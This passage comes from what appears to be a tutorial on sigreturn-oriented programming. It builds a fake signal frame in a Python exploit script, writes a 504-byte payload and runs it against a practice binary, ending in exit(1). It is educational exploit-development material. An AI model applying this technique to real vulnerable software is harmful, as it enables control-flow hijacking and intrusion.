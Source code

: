 Then comes the final important register - ```rip``` - the Instruction Pointer. Note that whatever address is present here, it will be loaded into the processor's ```rip``` register and code present at that address will be executed. Our goal is to execute ```exit(1)``` system call. We want ```rip``` to point to a ```syscall``` instruction.

```
    payload += struct.pack('<Q', 0x000000000040125c)    # RIP = should call 'syscall' instruction
```

Then comes the rest of the members in the Signal Frame. I have copied it from the stack-dump in Subsection 2.2. You please copy the values present in your stack-dump.

```
    payload += struct.pack('<Q', 0x0000000000000202)    # EFLAGS
    payload += struct.pack('<Q', 0x002b000000000033)    # Segment Registers(SS, FS, GS, CS)
    payload += struct.pack('<Q', 0x0000000000000000)    # ERR                   
    payload += struct.pack('<Q', 0x0000000000000001)    # TrapNo                
    payload += struct.pack('<Q', 0x0000000000000000)    # Old-Mask              
    payload += struct.pack('<Q', 0x0000000000000000)    # CR2                   
    payload += struct.pack('<Q', 0x0000000000000000)    # fpstate = NULL        
    payload += struct.pack('<Q', 0x000000000000000e)    # reserved              
    payload += struct.pack('<Q', 0x0000000000000000)    # uc_sigmask
```

All the above values were directly copied from the actual stack-dump. Here, we don't care about preserving the FPU-context, hence the NULL. I will be ignoring the ```struct siginfo``` data. I am not sure if that will affect the exploit, but let us see.

Please note that these addresses are taken from my binary. In your exploit script, make sure to put in addresses and values from your binary and stack-dump.

Finally, let us write it into a file.

```python
    # Ignoring siginfo.                                                         
                                                                                
    # Writing the payload into a file.                                          
    fo = open('payload.txt', 'wb')                                              
    fo.write(payload)                                                           
    fo.close()
```

With that, we are ready with our ```fake_frame()``` function.

Reiterating the idea: This fake Signal Frame which we have placed in the stack hopefully will be picked up by the kernel when ```rt_sigreturn``` is executed and these register values will be actually loaded into the processor and ```syscall``` instruction is run (because ```rip``` points to a syscall instruction). Let us run the script and get the **payload.txt**.

```
srop$ ./exploit.py
srop$ ls -l payload.txt 
-rw-r--r-- 1 dell dell 504 May 10 18:39 payload.txt
```

And we have our input payload ready - it is 504 bytes long. Let us run it.

```
srop$ cat payload.txt - | ./code3

Enter your name: Entered name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@D

srop$ echo $?
1
srop$
```
